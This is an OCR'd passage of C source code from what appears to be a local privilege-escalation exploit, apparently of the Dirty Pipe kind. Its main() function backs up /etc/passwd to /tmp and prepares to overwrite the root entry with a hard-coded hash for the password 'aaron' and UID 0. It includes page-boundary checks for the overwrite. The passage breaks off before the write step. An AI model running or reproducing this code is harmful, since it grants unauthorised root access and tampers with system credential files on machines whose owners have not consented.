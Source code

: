       44. }
    
      45.   46. int main() {
    
      47.     const char *const path = "/etc/passwd";
    
      48.   49.         printf("Backing up /etc/passwd to /tmp/passwd.bak ...\n");
    
      50.         FILE *f1 = fopen("/etc/passwd", "r");
    
      51.         FILE *f2 = fopen("/tmp/passwd.bak", "w");
    
      52.   53.         if (f1 == NULL) {
    
      54.             printf("Failed to open /etc/passwd\n");
    
      55.             exit(EXIT_FAILURE);
    
      56.         } else if (f2 == NULL) {
    
      57.             printf("Failed to open /tmp/passwd.bak\n");
    
      58.             fclose(f1);
    
      59.             exit(EXIT_FAILURE);
    
      60.         }
    
      61.   62.         char c;
    
      63.         while ((c = fgetc(f1)) != EOF)
    
      64.             fputc(c, f2);
    
      65.   66.         fclose(f1);
    
      67.         fclose(f2);
    
      68.   69.     loff_t offset = 4; // after the "root"
    
      70.     const char *const data = ":$1$aaron$pIwpJwMMcozsUxAtRa85w.:0:0:test:/root:/bin/sh\n"; // openssl passwd -1 -salt aaron aaron
    
      71.         printf("Setting root password to \"aaron\"...\n");
    
      72.     const size_t data_size = strlen(data);
    
      73.   74.     if (offset % PAGE_SIZE == 0) {
    
      75.         fprintf(stderr, "Sorry, cannot start writing at a page boundary\n");
    
      76.         return EXIT_FAILURE;
    
      77.     }
    
      78.   79.     const loff_t next_page = (offset | (PAGE_SIZE - 1)) + 1;
    
      80.     const loff_t end_offset = offset + (loff_t)data_size;
    
      81.     if (end_offset > next_page) {
    
      82.         fprintf(stderr, "Sorry, cannot write across a page boundary\n");
    
      83.         return EXIT_FAILURE;
    